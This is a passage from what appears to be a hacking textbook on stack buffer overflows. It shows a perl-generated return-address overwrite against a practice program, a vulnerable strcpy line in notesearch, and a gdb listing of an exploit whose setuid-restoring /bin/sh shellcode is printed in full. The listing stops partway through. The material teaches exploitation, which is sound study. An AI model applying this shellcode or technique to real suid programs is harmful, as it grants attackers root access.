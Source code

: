 <pre style="color: white;">
reader@hacking:~/booksrc $ ./auth_overflow2 $(perl -e 'print "\xbf\x84\x04\x08"x10')

-=-=-=-=-=-=-=-=-=-=-=-=-=-
Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
Segmentation fault (core dumped)
reader@hacking:~/booksrc $
</pre>

In the example above, the target address of _0x080484bf_ is repeated _10_ times to ensure the return address is overwritten with the new target address. When the _check_authentication()_ function returns, execution jumps directly to the new target address instead of returning to the next instruction after the call. This gives us more control; however, we are still limited to using instructions that exist in the original programming. The _notesearch_ program is vulnerable to a buffer overflow on the line
marked in bold here.

```c
int main(int argc, char* argv[]) 
{
    int userid, printing=1, fd; // File descriptor
    char searchstring[100];

    if (argc > 1)                      // If there is an arg
        /////////////////// VULNERABLE LINE ///////////////////
        strcpy(searchstring, argv[1]); // that is the search string;
        /////////////////// VULNERABLE LINE ///////////////////
    else                               // otherwise,
        searchstring[0] = 0;           // search string is empty.
```

The _notesearch_ exploit uses a similar technique to overflow a buffer into the return address; however, it also injects its own instructions into memory and then returns execution there. These instructions are called __shellcode__, and they tell the program to restore privileges and open a shell prompt. This is especially devastating for the _notesearch_ program, since it is _suid root_. Since this program expects multi-user access, it runs under higher privileges so it can access its data file, but the program logic prevents the user from using these higher privileges for anything other than accessing the data file, at least that’s the intention.

But when new instructions can be injected in and execution can be controlled with a buffer overflow, the program logic is meaningless. This technique allows the program to do things it was never programmed to do, while it’s still running with elevated privileges. This is the dangerous combination that allows the _notesearch_ exploit to gain a root shell. Let’s examine the exploit further.

<pre style="color: white;">
reader@hacking:~/booksrc $ gcc -g exploit_notesearch.c
reader@hacking:~/booksrc $ gdb -q ./a.out
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
(gdb) list 1
1   #include &lt;stdio.h&gt;
2   #include &lt;stdlib.h&gt;
3   #include &lt;string.h&gt;
4   char shellcode[]=
5       "\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
6       "\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
7       "\xe1\xcd\x80";
8
9   int main(int argc, char* argv[]) {
10      unsigned int i, *ptr, ret, offset=270;
(gdb)
11      char* command, *buffer;
12
13      command = (char*) malloc(200);
14      bzero(command, 200); // Zero out the new memory.
15
16      strcpy(command, "./notesearch \'"); // Start command buffer.